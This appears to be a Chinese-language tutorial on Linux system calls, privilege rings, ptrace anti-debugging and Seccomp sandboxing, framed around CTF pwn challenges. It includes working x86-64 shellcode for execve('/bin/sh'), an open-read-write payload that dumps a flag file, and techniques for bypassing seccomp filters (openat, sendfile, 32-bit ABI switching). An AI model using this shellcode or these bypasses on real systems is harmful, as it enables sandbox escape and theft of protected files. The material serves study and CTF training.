


> [!TIP] 推荐前置知识点与阅读顺序
> 本篇为计算机底层攻防的高阶篇目。系统调用（Syscall）是汇编指令与内核接口的枢纽，**强烈建议按顺序阅读**：
> - 📖 先读前置篇：[[24-计算机底层与操作系统极简硬核核心/03-汇编与逆向极简心智模型：x64寄存器、函数调用栈帧与指令执行本质]]
> - 掌握寄存器（RAX 保存系统调用号，RDI/RSI/RDX 传参）与 `syscall` 指令的底层转换关系后，再读本篇将事半功倍！

# Linux系统调用与内核隔离：Syscall底层、用户态内核态切换与Seccomp沙箱机制

---

## 0. 拒绝教科书废话：为什么你的代码永远碰不到物理硬件？

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 📚 操作系统内核与系统调用核心术语速查表
| 术语 | 英文全称 / 原型 | 核心含义与攻防底层意义 |
|---|---|---|
| **Syscall** | System Call (系统调用) | 用户态应用程序请求内核执行特权操作（如文件 I/O、网络发包、进程创建）的硬件级标准安全入口。 |
| **Ring 0 / Ring 3** | CPU 特权级别环 | x86/x64 CPU 架构的硬件权限隔离；Ring 0 为内核态（最高权限，掌管物理硬件），Ring 3 为用户态（受限平民区）。 |
| **sys_call_table** | 系统调用号分发数组 | Linux 内核中保存的函数指针数组，根据 RAX 寄存器中的系统调用号（如 `sys_read=0`、`sys_execve=59`）跳转执行内核实现。 |
| **Context Switch** | 上下文切换 | CPU 从用户态切换到内核态时，硬件与操作系统对通用寄存器、堆栈指针（RSP）、指令指针（RIP）的保存与还原过程。 |
| **IDT / Trap Gate** | 中断描述符表 / 陷阱门 | 早期 x86 架构通过 `int 0x80` 软中断触发系统调用的硬件跳转映射表（现代 x64 已全面升级为高速 `syscall` 指令）。 |
| **Seccomp** | Secure Computing Mode | Linux 内核沙箱隔离机制，用于严格白名单过滤进程能够执行的系统调用，若调用被禁系统调用则直接 SIGKILL 终止。 |
| **BPF / cBPF** | Berkeley Packet Filter | Seccomp 规则背后的内核字节码虚拟机，对系统调用号及调用参数进行零开销的条件逻辑判断。 |
| **SECCOMP_RET_KILL** | Seccomp 终止动作 | 当进程触发非法系统调用时，内核立即强制杀死整个进程或线程组，常用于 CTF Pwn 题目的严格沙箱环境。 |
| **SECCOMP_RET_ERRNO** | Seccomp 返回错误码 | 当进程触发受限调用时，内核不杀死进程，而是伪造返回 `-EPERM` 或 `-EACCES` 错误码，诱骗程序逻辑受挫。 |
| **ORW** | Open - Read - Write | CTF Pwn 沙箱逃逸经典利器；当 `execve` 被禁用无法弹 Shell 时，仅靠 `sys_open`、`sys_read`、`sys_write` 读取并打印 Flag 文件。 |
| **Kernel Space vs User Space**| 内核虚拟空间与用户空间 | 虚拟内存的高端地址（如 64 位下的 `0xFFFF800000000000+`）专供内核代码与数据映射，低端地址供用户进程隔离独占。 |
| **vDSO / vsyscall** | Virtual Dynamic Shared Object | 内核映射到用户空间的只读代码页，对 `gettimeofday` 等无需真正特权的高频调用免除 CPU 特权级切换开销，极大提升性能。 |


### 0. 极简硬核四层脉络：C 源码 $\to$ 汇编指令 $\to$ 机器码 $\to$ ELF 可执行文件

很多零基础读者在学习黑客 Shellcode 和系统调用时，经常困惑“机器码、汇编指令与可执行文件到底是什么关系”：
1. **高级代码（C / Python）**：人类能舒适理解的高级抽象逻辑（如 `write(1, "hello", 5)`）；
2. **汇编指令（Assembly）**：编译器将高级语法翻译成 CPU 专属的英文助记符（如 `mov rax, 1; mov rdi, 1; syscall`）；
3. **机器码（Machine Code / 纯字节串）**：汇编助记符被汇编器逐行直译成 CPU 硅芯片晶体管电路能直接导通识别的十六进制字节（例如 `mov rax, 1` $\to$ `\x48\xc7\xc0\x01\x00\x00\x00`，`syscall` $\to$ `\x0f\x05`）。**这串剥离了一切容器外壳、可被 CPU 原生执行的纯二进制字节流，就是黑客所称的 Shellcode！**
4. **ELF 可执行文件（Binary）**：操作系统把上述机器码、只读数据、堆栈配置按照标准格式（Linux 下为 ELF 规范，Windows 下为 PE 规范）打包成带有文件头（Header）的磁盘可执行文件。当你输入 `./a.out` 时，内核将其直接映射载入虚拟内存，CPU 的指令指针（RIP）直接从机器码的首地址开始逐条执行！

---

几乎所有大学操作系统课程在讲到“系统调用”时，都会抛出一大堆抽象概念：
- 双重模式（Dual-Mode Operation）；
- 中断向量表（IDT）、陷阱门（Trap Gate）；
- 特权级环（Ring 0 到 Ring 3）。

但教科书往往不告诉你：**“为什么你在 C 语言里写一句 `printf("hello")` 或者 `socket()`，就必须惊动操作系统内核？黑客编写 Shellcode 时，底层到底在向内核呼唤什么？”**

### 1. 通俗生活类比：平民与国家金库的政务窗口
- **用户态（Ring 3 / 平民区）**：
  你写的 Python、C、Java 应用程序，默认都跑在 Ring 3。平民拥有自己的私人领地（用户虚拟内存空间），但**绝对被禁止私自印钞、造枪、调兵**（即：直接操作物理内存分页、直接向网卡发包、直接向磁盘磁道写数据）。如果允许平民直接操作硬件，任何一个死循环或指针越界就会直接导致整台物理机瞬间蓝屏死机！
- **内核态（Ring 0 / 军管金库）**：
  操作系统内核（Kernel）独占 Ring 0。它拥有 CPU 的最高统治权，可以读写任何物理内存、执行任何底层硬件特权指令。
- **系统调用（Syscall / 防弹玻璃政务大厅）**：
  平民如果想向屏幕输出文字、向网络发一个包，**必须去政务大厅的防弹窗口填一张业务单（系统调用申请）**。内核特警核实单据无误后，亲自帮你把数据写到网卡或屏幕上，然后把处理结果递回给平民。



---

## 1. 系统调用（Syscall）底层运作真相

### 1.1 从 `int 0x80` 到 `syscall` 指令的进化

- **32 位老旧机制（`int 0x80` 中断慢车）**：
  以前程序发起系统调用，必须执行一条软中断指令 `int 0x80`。CPU 会查询中断描述符表（IDT），经历漫长复杂的权限校验和压栈，性能损耗巨大。
- **64 位现代机制（`syscall` 硬件快车道）**：
  现代 x86-64 架构专门在 CPU 芯片内部硬件级焊死了 `syscall` / `sysret` 指令：
  1. 执行 `syscall` 时，CPU 硬件瞬间将下一行指令地址保存到寄存器 `RCX`，将标志位保存到 `R11`；
  2. 硬件特权级直接从 Ring 3 跃迁到 Ring 0；
  3. CPU 指针跳入内核预设的系统调用入口函数（`entry_SYSCALL_64`）。

---

### 1.2 系统调用传参的“致命陷阱”：与普通函数调用的微妙差异

很多初学二进制安全的人在此处被坑得头破血流：
**“为什么在 64 位下写普通函数调用入参是 `RDI, RSI, RDX, RCX, R8, R9`，而写系统调用汇编时第 4 个参数却变成了 `R10`？！”**

#### 答案极其硬核：
因为当 CPU 执行硬件指令 `syscall` 时，**CPU 硬件会自动强制将当前 `RIP` 存入 `RCX` 寄存器**！
如果内核还把 `RCX` 当作第 4 个参数来读，用户传进来的参数就会被硬件直接冲刷覆盖！
因此，Linux 内核规定：**系统调用的第 4 个入参必须改用 `R10` 寄存器**！

#### 攻防核心寄存器对照表：
| 寄存器 | 角色 | 攻防/Shellcode 关键作用 |
| :---: | :---: | :--- |
| **`RAX`** | **系统调用号（Syscall Number）** | 决定让内核执行哪个业务（0=read, 1=write, 2=open, 59=execve） |
| **`RDI`** | 第 1 个入参 | 如 `execve` 的文件名指针 `"/bin/sh"` |
| **`RSI`** | 第 2 个入参 | 如 `execve` 的 `argv` 指针数组 |
| **`RDX`** | 第 3 个入参 | 如 `execve` 的 `envp` 环境变量指针数组 |
| **`R10`** | **第 4 个入参** | 替代被硬件冲刷的 RCX |
| **`R8`** | 第 5 个入参 | 附加参数 |
| **`R9`** | 第 6 个入参 | 附加参数 |

#### 极简 27 字节 `execve("/bin/sh")` Shellcode 手写拆解：
```assembly
section .text
global _start
_start:
    xor rsi, rsi             ; rsi = 0 (argv = NULL)
    push rsi                 ; 栈顶压入 0 (作为 "/bin/sh\x00" 的截断符)
    mov rbx, 0x68732f2f6e69622f ; 把 "/bin//sh" 的十六进制放入 rbx (反向小端序)
    push rbx                 ; 将 "/bin//sh" 压入栈中
    mov rdi, rsp             ; 将当前栈顶指针 (即 "/bin//sh" 字符串地址) 赋给 rdi (第1个参数)
    xor rdx, rdx             ; rdx = 0 (envp = NULL)
    mov rax, 59              ; 59 号系统调用 = sys_execve
    syscall                  ; 叩击内核之门，直接弹 Shell!
```

---

## 2. `ptrace` 系统调用的底层真相与反调试暗桩

### 2.1 GDB 调试器是如何控制一个进程的？
当你在终端运行 `gdb ./vuln` 并输入 `run` 时，GDB 凭什么能读取目标程序的内存、强制让它在断点停下？
**答案就是 Linux 提供的超级系统调用：`ptrace`（Process Trace）**。
- `ptrace` 允许一个父进程（Tracer）完全控制另一个子进程（Tracee）的执行流、读写其虚拟内存、偷看其所有寄存器值。

### 2.2 逆向对抗中的反调试暗桩（Anti-Debugging）
Linux 内核有一条铁律：**一个进程在同一时刻，绝对不能被两个追踪器（Tracer）同时挂钩（Attach）！**

恶意软件或 CTF 逆向题目经常在 `main` 函数开头埋下这样一段代码：
```c
#include <sys/ptrace.h>
#include <stdio.h>
#include <stdlib.h>

void anti_debug() {
    // 进程主动请求让别人跟踪自己 (PTRACE_TRACEME)
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) < 0) {
        printf("[!] 检测到 GDB 调试器挂钩！自爆退出...\n");
        exit(1); // 发现被调试，立刻退出
    }
}
```

#### 原理大白话：
- 正常独立运行时：没有调试器，`ptrace(PTRACE_TRACEME, ...)` 返回成功 `0`；
- 如果你提前用 GDB 打开了程序：GDB 已经占据了该进程的 Tracer 席位，当程序执行到这里再次申请时，内核发现冲突直接返回 `-1`，程序瞬间识别出“正在被逆向”，直接自杀！

#### 黑客破局之法：
1. **静态 Patch 机器码**：用 IDA / Ghidra 找到 `call ptrace`，直接将其对应的机器码用 `NOP`（`0x90`）覆盖填充；
2. **动态 Hook 劫持**：编写一个假的共享库，用 `LD_PRELOAD` 将 `ptrace()` 强行 Hook，使其永远返回 `0`！

---

## 3. Seccomp 沙箱机制与 ORW 逃逸战术

在现代容器（Docker 默认 seccomp profile）、Chrome 浏览器沙箱以及高阶 CTF PWN 赛题中，**Seccomp（Secure Computing Mode）** 是最致命的安全防线。

### 3.1 什么是 Seccomp？（内核门口的严格安检机）

Seccomp 是 Linux 内核内置的安全机制，允许程序在运行时**自我切断部分系统调用能力**：
- **模式 1：Strict Mode**
  进程一旦开启，内核只允许它调用 `read`, `write`, `_exit`, `sigreturn` 4 个系统调用。只要敢调用任何其他指令（如 `execve`, `fork`, `socket`），内核当场用 `SIGKILL` 信号将进程秒杀！
- **模式 2：Filter Mode（BPF 过滤器）**
  使用 **伯克利包过滤器（BPF）** 规则。开发者可以精准配置黑白名单：“允许 `read`、允许 `open`，但只要调用 `execve`（59号）立即枪毙”。

```c
// 开启 BPF 沙箱，拉黑 59 号系统调用 (execve)
prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0);
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &bpf_program);
```

---

### 3.2 攻防博弈：沙箱逆向审查工具（`seccomp-tools`）

当你拿到一个开启了沙箱的二进制程序时，盲目去打 `system("/bin/sh")` 只会看到程序莫名奇妙闪退崩溃。
第一步必须用武器审查沙箱过滤规则：

```bash
# 一键导出并反汇编二进制程序的 Seccomp BPF 规则
seccomp-tools dump ./pwn_challenge
```

典型输出结果解读：
```text
 line  OP   JT   JF   K
=================================
 0000: A = sys_number
 0001: if (A == execve) goto 0005
 0002: if (A == execveat) goto 0005
 0003: if (A == fork) goto 0005
 0004: return ALLOW
 0005: return KILL
```
**情报结论**：`execve`、`execveat`、`fork` 全部被封杀！黑客就算拿到 `RIP`，也绝对弹不出交互式 Bash Shell！

---

### 3.3 经典破局必杀技：ORW 攻击链（Open - Read - Write）

**黑客逆向思考**：
我们打比赛、挖漏洞的最终目的，不是为了跟服务器打招呼聊天，而是为了**拿到磁盘里的那个 `/flag` 字符串**！
既然 `execve` 弹 Shell 这条路被沙箱封死了，但沙箱**放行了文件读写系统调用**，那我们为什么不亲自动手编写一段“直读文件”的纯净 Shellcode 呢？

**这就是闻名遐迩的 ORW 战术**：
1. **`Open`**：调用 `sys_open("flag", 0)` 打开靶标文件，获取文件描述符（fd）；
2. **`Read`**：调用 `sys_read(fd, buf, 0x100)` 把 flag 文件的密文读入内存堆栈；
3. **`Write`**：调用 `sys_write(1, buf, 0x100)` 将内存里的 flag 直接喷射输出到标准输出（文件描述符 1 即当前终端屏幕）！



#### 手工汇编级 ORW Payload（x86-64 纯粹机器码版）：
```assembly
section .text
global _start
_start:
    ; 1. sys_open("flag", O_RDONLY=0)
    xor rsi, rsi             ; rsi = 0 (只读)
    push rsi                 ; 压入 0 字符串截断符
    mov rax, 0x000067616c66  ; "flag" 字符串反向小端序
    push rax
    mov rdi, rsp             ; rdi 指向栈顶的 "flag"
    mov rax, 2               ; 2 号系统调用 = sys_open
    syscall

    ; 2. sys_read(fd, rsp, 0x60)
    mov rdi, rax             ; 将 open 返回的 fd (通常是 3) 放入 rdi
    mov rsi, rsp             ; 将读取缓冲区定在当前栈顶
    mov rdx, 0x60            ; 读取 96 字节
    xor rax, rax             ; 0 号系统调用 = sys_read
    syscall

    ; 3. sys_write(stdout=1, rsp, 0x60)
    mov rdi, 1               ; 1 = 标准输出 stdout
    mov rsi, rsp             ; 打印刚才读到栈顶的 flag 字符串
    mov rdx, 0x60            ; 打印 96 字节
    mov rax, 1               ; 1 号系统调用 = sys_write
    syscall

    ; 4. sys_exit(0)
    xor rdi, rdi
    mov rax, 60              ; 60 号系统调用 = sys_exit
    syscall
```

---

### 3.4 沙箱高阶绕过心智清单

当防守方把 `open` 也拉黑时，老练的渗透者会利用内核的多态 API 进行逃逸降维打击：
1. **替换为 `openat`**：许多出题人只屏蔽了 `open`（2号），却忘记屏蔽了 `openat`（257号，`openat(AT_FDCWD, "flag", 0)`）；
2. **替换为 `sendfile`**：如果 `read` 或 `write` 被禁，使用 `sendfile(1, fd, 0, 0x100)`（40号系统调用），内核在内部直接把文件数据流零拷贝打入标准输出，完全绕过对 `read`/`write` 的拦截；
3. **架构降维切换（x32 / i386 跨 ABI 绕过）**：
   如果 BPF 规则只校验了 64 位系统调用号，攻击者可以通过汇编远跳转（`far jmp`）强行切换代码段寄存器 `CS` 进入 32 位模式，使用 32 位系统调用号（`int 0x80`）绕过 64 位的 BPF 策略过滤！

---

## 4. 系统调用与内核攻防思维模型速查表

| 核心机制 | 底层硬件/内核原理 | 攻防实战核心场景 | 武器化指令/工具 |
| :--- | :--- | :--- | :--- |
| **`syscall` 指令** | Ring 3 跃迁 Ring 0，保存现场至 RCX/R11 | 纯净 Shellcode 编写，无 libc 依赖直接与内核对话 | x86-64 `syscall` (RAX=调用号, R10=第4参数) |
| **`ptrace` 机制** | 父进程附加挂钩，控制子进程寄存器与虚拟内存 | 软件反调试检测、逆向破解反反调试对抗 | `ptrace(PTRACE_TRACEME)`、`LD_PRELOAD` Hook |
| **Seccomp-BPF** | 内核在系统调用分发前执行 BPF 字节码过滤规则 | 容器安全隔离、受限沙箱突破与逃逸挖掘 | `seccomp-tools`、`prctl(PR_SET_SECCOMP)` |
| **ORW 攻击链** | 绕过 `execve` 封锁，直读敏感文件并喷射回显 | 沙箱环境下获取 Flag 的终极武器 | `open` / `openat` $\to$ `read` $\to$ `write` |
| **`sendfile` 零拷贝** | 内核态直接完成文件描述符之间的数据流倒灌 | 绕过单一 `read` 或 `write` 系统调用拦截 | `sendfile(out_fd, in_fd, offset, count)` |
